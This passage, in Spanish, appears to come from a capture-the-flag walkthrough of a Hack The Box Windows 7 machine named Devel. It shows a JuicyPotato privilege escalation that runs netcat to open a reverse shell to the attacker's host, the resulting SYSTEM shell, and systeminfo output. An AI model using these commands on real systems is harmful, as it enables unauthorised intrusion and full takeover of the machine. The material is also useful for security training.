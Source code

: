 ```
28/07/2024  04:11 ��           347.648 JuicyPotato.exe
28/07/2024  04:13 ��            28.160 nc.exe
               2 File(s)        375.808 bytes
               2 Dir(s)   4.641.300.480 bytes free
```

Nos ponemos en `escucha` con `netcat` por el puerto `9001`

```
# nc nlvp 9001
```

Ejecutamos el `JuicyPotato` en la máquina víctima

```
Juicy.Potato.x86.exe  -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd.exe 10.10.16.16 9001" -t *
Juicy.Potato.x86.exe  -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd.exe 10.10.16.16 9001" -t *
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
......
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Windows\Temp\privesc>
```

Nos convertimos en el usuario `Administrator`

```
# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.155.162] 49214
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
## Privilege Escalation (Second Method)

`Listamos` los `privilegios` del sistema 

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          28/7/2024, 3:30:22 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
```